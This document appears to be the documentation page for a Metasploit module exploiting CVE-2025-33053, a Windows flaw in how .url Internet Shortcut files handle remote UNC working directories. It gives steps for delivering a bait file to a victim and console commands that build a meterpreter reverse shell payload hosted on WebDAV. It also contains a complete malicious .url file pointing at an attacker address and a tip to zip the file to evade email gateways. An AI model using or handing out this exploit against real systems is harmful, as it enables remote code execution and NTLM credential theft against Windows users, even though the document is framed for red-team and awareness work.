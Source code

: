 ## Vulnerable Application

CVE-2025-33053 - Internet Shortcut (.url) UNC Path Exploit

Windows improperly handles `.url` (Internet Shortcut) files referencing remote
UNC paths.
Specifically, `.url` files that specify a remote working directory
(`WorkingDirectory=\\attacker\webdav`) and a trusted executable (e.g.,
`iediagcmd.exe`)
may cause the system to access the attacker's server when opened.

This behavior can be exploited to:

- Trigger NTLM authentication leaks (SMB relay)
- Load remote payloads via WebDAV shares
- Attempt DLL sideloading if conditions allow

## Affected Versions

- Windows 10 22H2
- Windows 11 23H2
- Fully patched prior to June 2025 Patch Tuesday

## Verification Steps

1. Set up the WebDAV server.
2. Use the module to generate a `.url` file
3. Deliver the `.url` to the target (email, USB, zip)
4. On victim machine, open `.url`
5. Observe connection back to WebDAV server

## Overview

This module generates a malicious `.url` Internet Shortcut file that abuses
CVE-2025-33053 —
a vulnerability in how Windows handles `.url` files referencing remote UNC
paths.

When opened on a vulnerable system, the `.url` causes the system to connect to a
UNC path
(e.g., a WebDAV share), triggering an attempt to execute a trusted binary
from the attacker's location. This can result in RCE or credential leaks.

It supports:

- Auto-generating a reverse shell payload
- Hosting the payload in a WebDAV share
- Launching a Metasploit handler

## Module Information

**Module Name**: exploits/windows/fileformat/cve_2025_33053
**Authors**:

- Dev Bui Hieu

**Disclosure Date**: 2025-06-11
**License**: MSF_LICENSE
**Rank**: Normal

## Options

### GEN_PAYLOAD

Whether to generate payload and move to WebDAV directory (default: true)

### PAYLOAD_NAME

Output payload file name (default: route.exe)

### START_LISTENER

Whether to auto-start a Metasploit multi/handler (default: true)

### WEBDAV_DIR

WebDAV folder for payload and .url (default: /var/www/webdav)

### OUTFILE

Output .url filename (default: bait.url)

### LOLBAS_EXE

Path to a trusted executable to launch (default: iediagcmd.exe)

### ICON_PATH

Icon used for the shortcut (default: msedge.exe)

### ICON_INDEX

Index of the icon in the icon file (default: 13)

### MODIFIED_HEX

Modified timestamp value for the .url file (default: 20F06BA06D07BD014D)

## Scenarios

You can use this module in:

- Phishing simulations
- Red team operations
- Awareness training
- DLL sideloading test
- Drive-by UNC path abuse

## Example Usage

```
use exploits/windows/fileformat/cve_2025_33053
set LHOST 192.168.1.10
run
```

Optional:

```
set WEBDAV_DIR /var/www/webdav
set OUTFILE clickme.url
set PAYLOAD windows/x64/meterpreter/reverse_http
run
```

## Output

```
msf6 > use exploit/windows/fileformat/cve_2025_33053
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/cve_2025_33053) > set LHOST 192.168.1.15
LHOST => 192.168.1.15
msf6 exploit(windows/fileformat/cve_2025_33053) > exploit
[*] Started reverse TCP handler on 192.168.1.15:4444 
[*] Creating WebDAV directory if not exists...
[*] Generating payload...
[+] Payload successfully written to /var/www/webdav/route.exe
[*] Generating .URL file...
[+] .URL file written to: bait.url
[*] Module complete. Deliver /home/kali/bait.url to victim.
```

Example .url file:

```
[InternetShortcut]
URL=C:\Program Files\Internet Explorer\iediagcmd.exe
WorkingDirectory=\\192.168.1.10\webdav\
ShowCommand=7
IconIndex=13
IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Modified=20F06BA06D07BD014D
```

## References

- [GitHub PoC](https://github.com/DevBuiHieu/CVE-2025-33053-Proof-Of-Concept)
- [NVD Entry](https://nvd.nist.gov/vuln/detail/CVE-2025-33053)
- [LOLBAS Project](https://lolbas-project.github.io)
- [Microsoft Advisory](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2025-33053)

## Notes

- Payload hosted via WebDAV must be reachable from the victim
- On patched systems, SmartScreen or Defender may block the connection
- Zip `.url` to evade email gateway protections
- Listener starts automatically if `START_LISTENER` is true
